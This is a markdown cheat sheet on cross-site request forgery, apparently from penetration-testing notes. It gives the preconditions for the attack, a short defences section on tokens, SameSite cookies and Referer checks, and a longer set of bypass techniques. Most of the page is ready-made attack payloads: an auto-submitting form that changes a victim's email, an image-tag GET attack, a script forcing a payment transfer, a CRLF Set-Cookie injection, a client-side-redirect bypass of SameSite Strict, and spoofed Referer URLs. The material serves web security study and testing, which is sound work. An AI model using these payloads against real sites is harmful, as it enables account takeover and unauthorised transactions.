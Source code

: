 # CSRF

## Conditions

* A relevant action. Ex: change password
* Cookie-based session handling
* No unpredictable request parameters. If you need to know the value of the existing password it's not vulnerable

## **Exploit**

**With POST**

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

**With GET**

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

## Defences

<details>

<summary>CSRF tokens</summary>

A CSRF token is a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="example@normal-website.com">
    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
    <button class='button' type='submit'> Update email </button>
</form>
```

</details>

<details>

<summary>SameSite cookies</summary>

Controls whether or not a cookie is sent with cross-site requests

If the website doesn't explicitly set a `SameSite` attribute, Chrome automatically applies `Lax` restrictions by default.

* `Strict` Means that the browser sends the cookie only for same-site requests

<!---->

*   `Lax` Means that browser sends the cookie in cross-site requests, if:

    * The request uses the `GET` method.
    * The request resulted from a top-level navigation by the user, such as clicking on a link.

    The cookie is not sent on cross-site requests, such as on requests to load images or frames.
* `None` Means that the browser sends the cookie with both cross-site and same-site requests. The `Secure` attribute must also be set when setting this value, like so `SameSite=None; Secure`

</details>

<details>

<summary>Referer-based validation</summary>

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain

</details>

## CSRF tokens bypass

* Switch from POST to the GET method to bypass
* Remove the entire parameter containing the token
* Sometimes you don't need a valid token (the app doesn't keep valid server-side tokens).
  * Simply invent a token in the required format
* Some apps don't validate if the token belongs to the same session as the requesting user.
  * Log in to the application with your account, **obtain a valid token**, and then **feed that token to the victim user** in their CSRF attack
* Some apps do tie the CSRF token to a cookie, but not to the session cookie. So there are two token: one in a cookie and one in hidden input. (this can also have the same value)
  * Can you set a cookie? Ex. Header injection with `CRLF`.&#x20;
  * ```
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  * Log in to the application with your account -> obtain a valid token and associated cookie.
  * Remove the auto-submit `<script>` block, and add the following code to inject the cookie.
  * ```html
    <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
    ```

## SameSite cookies bypass

## Lax bypass

* Using GET requests (bypass lax)

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

* GET method override (bypass lax)
  * Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  * ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```

### Strict bypass

Bypass via client-side redirect. Consider a page `https://vulnerable-website.com/post/confirm?postId=10` that load this script.

```javascript
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

Note: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.

## Referer-based validation bypass

* Some apps validate the Referer header if present, but skip if omitted
  * `<meta name="referrer" content="never">`
* Validation of Referer can be circumvented
  * ```
    http://vulnerable-website.com.attacker-website.com/csrf-attack
    http://attacker-website.com/csrf-attack?vulnerable-website.com
    http://attacker-website.com/vulnerable-website.com
    ```
  * Tip: Instead of use `http://attacker-website.com/vulnerable-website.com` that looks strange you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/attacker-website.com')</script>`
  *   Note: Add `Referrer-Policy: unsafe-url`. One way to set it in html: `<meta name="referrer" content="unsafe-url"/>`



Firefox 87 new default Referrer Policy ‘`strict-origin-when-cross-origin`’ trimming user sensitive information like path and query string to protect privacy. (https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)
